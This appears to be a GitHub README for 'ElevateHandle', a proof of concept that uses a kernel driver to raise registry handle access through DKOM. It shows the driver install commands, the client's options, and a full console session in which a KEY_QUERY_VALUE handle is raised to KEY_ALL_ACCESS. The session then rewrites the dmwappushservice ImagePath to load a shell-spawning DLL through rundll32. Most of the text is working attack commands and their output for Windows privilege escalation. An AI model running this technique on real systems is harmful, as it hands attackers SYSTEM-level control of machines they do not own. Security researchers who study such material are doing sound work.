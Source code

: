 # ElevateHandle

PoCs to elevate handle access with DKOM method.

## Installation

```
PS C:\> sc.exe create ElevateHandle type= kernel binpath= C:\Dev\ElevateHandleDrv_x64.sys
PS C:\> sc.exe start ElevateHandle
```

## Client Program Usage

This technique requires a handle to the target object.
It is rare cases that low privileged process can get handles to high privileged process, so this client program performs service's binary path modification.

```
PS C:\Dev> .\ElevateHandleClient.exe -h

ElevateHandleClient - Client for ElevateHandleDrv.

Usage: ElevateHandleClient.exe [Options]

        -h, --help    : Displays this help message.
        -n, --name    : Specifies a service name to overwrite ImagePath value.
        -c, --command : Specifies a command to set ImagePath value.

[!] -n option is required.
```

For example, in Windows 10/11, we can start `dmwappushservice` service any users.
If attacers succeeds in tampering service registry key, it leads privilege escalation.
To test this situation, I put sample DLL to pop up shell in desktop session.
After `ImagePath` value modification, start the modified service as follows:

```
PS C:\Dev> sc.exe qc dmwappushservice | findstr /i path
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p

PS C:\Dev> C:\Dev\ElevateHandleClient.exe -n dmwappushservice -c "C:\Windows\System32\rundll32.exe C:\Dev\HijackShellLib_x64.dll FakeEntry"

[+] Got a service key handle.
    [*] Registry Key Path : \REGISTRY\MACHINE\SYSTEM\CurrentControlSet\Services\dmwappushservice
    [*] Granted Access    : KEY_QUERY_VALUE
[*] Current ImagePath is "%SystemRoot%\system32\svchost.exe -k netsvcs -p".
[>] Sending a query to \??\ElevateHandle.
[+] Got a handle to \??\ElevateHandle (Handle = 0x28C).
[>] Sending a query to \??\ElevateHandle.
[+] Granted Access is elevated to KEY_ALL_ACCESS.
[+] ImagePath value is overwritten successfully.
[*] Done.

PS C:\Dev> sc.exe qc dmwappushservice | findstr /i path
        BINARY_PATH_NAME   : C:\Windows\System32\rundll32.exe C:\Dev\HijackShellLib_x64.dll FakeEntry

PS C:\Dev> sc.exe start dmwappushservice
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

PS C:\Dev>
```

![](./figures/ElevateHandle.png)